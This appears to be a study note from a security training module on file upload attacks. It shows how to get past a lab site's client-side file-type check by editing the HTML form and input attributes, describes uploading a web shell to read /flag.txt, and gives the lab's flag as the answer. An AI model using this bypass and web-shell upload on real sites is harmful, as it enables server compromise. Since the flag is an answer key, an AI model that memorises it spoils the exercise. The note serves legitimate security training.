

# Section 04: Client-side validation

Module: 21. File Upload Attacks

---

## Questions & Answers

### 1. Try to bypass the client-side file type validations in the above exercise, then upload a web shell to read /flag.txt (try both bypass methods for better practice)

Context:
- Since the website just validates on the client-side simply adjust the `form` and `input` elements to bypass:
```html
<form action="upload.php" method="POST" enctype="multipart/form-data" id="uploadForm" onSubmit="if(validate()){upload()}">
    <input type="file" name="uploadFile" id="uploadFile" onChange="showImage()" accept=".jpg,.jpeg,.png">
    <SNIP>
</form>

<!-- change to -->

<form action="upload.php" method="POST" enctype="multipart/form-data" id="uploadForm" onSubmit="upload()">
    <input type="file" name="uploadFile" id="uploadFile">
    <SNIP>
</form>
```


**Answer:** `HTB{cl13n7_51d3_v4l1d4710n_w0n7_570p_m3}`

---

[Back to Module Index](./README.md)
